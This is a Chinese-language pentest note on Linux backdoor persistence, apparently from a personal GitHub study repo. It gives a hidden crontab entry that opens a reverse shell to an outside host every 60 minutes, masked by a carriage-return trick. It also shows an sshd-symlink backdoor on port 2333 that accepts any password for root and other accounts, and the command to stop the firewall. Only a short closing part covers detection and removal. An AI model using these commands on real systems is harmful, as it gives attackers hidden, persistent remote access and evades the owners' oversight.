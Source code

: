 # Linux Backdoor

0x00 前言
=====

前一段时间学习一小部分内网的小笔记，[http://zone.wooyun.org/content/26415](http://zone.wooyun.org/content/26415)

结果没想到好像还是比较受欢迎，也是第一次被劈雷。最近办比赛遇上了rookit种植，感觉很无奈，所以自己也就研究了一下，内容都是一些以前的技术，也是为下面的笔记再次增加一章(windows下的域权限维持可以多看看三好学生师傅的文章)。大牛飘过。

笔记地址：  
[https://github.com/l3m0n/pentest_study](https://github.com/l3m0n/pentest_study)

测试环境:centos 6.5

0x01 crontab
=====

计划任务,永远的爱

每60分钟反弹一次shell给dns.wuyun.org的53端口

```
(crontab -l;printf "*/60 * * * * exec 9<> /dev/tcp/dns.wuyun.org/53;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab -

```

0x02 硬链接sshd
=====

上了防火墙的坑...测试前关闭一下吧

```
service iptables stop

```

出现：ssh: connect to host 192.168.206.142 port 2333: No route to host

```
ln -sf /usr/sbin/sshd /tmp/su; /tmp/su -oPort=2333;
ssh root@192.168.206.142 -p 2333

```

用root/bin/ftp/mail当用户名,密码任意

后门排查：

```
netstat -anopt

```

查找有问题的进程

```
ps -ef | grep pid
ls -al /tmp/su
kill -9 pid
rm -rf /tmp/su

```

